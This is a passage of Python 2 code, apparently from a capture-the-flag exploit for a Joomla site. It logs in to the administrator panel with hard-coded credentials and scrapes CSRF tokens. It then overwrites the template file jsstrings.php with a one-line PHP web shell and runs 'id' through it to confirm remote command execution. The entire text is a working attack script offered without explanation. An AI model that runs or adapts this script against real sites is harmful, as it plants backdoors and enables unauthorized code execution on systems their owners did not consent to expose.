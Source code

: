 ```python
find_token = re.compile('<input type="hidden" name="(.*?)" value="1" />')
found_token = re.search(find_token, initresp)

if found_token:
    initToken = found_token.group(1)
    print '[+] Found init token: ' + initToken

    print '[+] Preparing login request'
    data_login = {
        'username':'Floris',
        'passwd':'Curling2018!',
        'lang':'',
        'option':'com_login',
        'task':'login',
        'return':'aW5kZXgucGhw',
        initToken:'1'
    }
    data_link = initlink
    doLogin = session.post(data_link, data=data_login)
    loginResp = doLogin.text

    print '[+] At this stage we should be logged-in as an admin :)'

    uplink = target + '/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA%3D'
    filename = 'jsstrings.php'
    print '[+] File to change: ' + str(filename)

    getnewtoken = session.get(uplink)
    getresptoken = getnewtoken.text

    newToken = re.compile('<input type="hidden" name="(.*?)" value="1" />')
    newFound = re.search(newToken, getresptoken)

    if newFound:
        newOneTok = newFound.group(1)
        print '[+] Grabbing new token from logged-in user: ' + newOneTok

        getjs = target+'/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA%3D'
        getjsreq = session.get(getjs)
        getjsresp = getjsreq.text
        # print getjsresp
        print '[+] Shellname: ' + filename
        shlink = target + '/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA='
        shdata_up = {
            'jform[source]':'<?php system($_GET["x"]);',
            'task':'template.apply',
            newOneTok:'1',
            'jform[extension_id]':'503',
            'jform[filename]':'/'+filename
        }
        shreq = session.post(shlink, data=shdata_up)
        path2shell = '/templates/beez3/jsstrings.php?x=id'
        print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = session.get(target + path2shell)
        shresp = shreq.text

        print shresp

print '\n[+] Module finished.'
```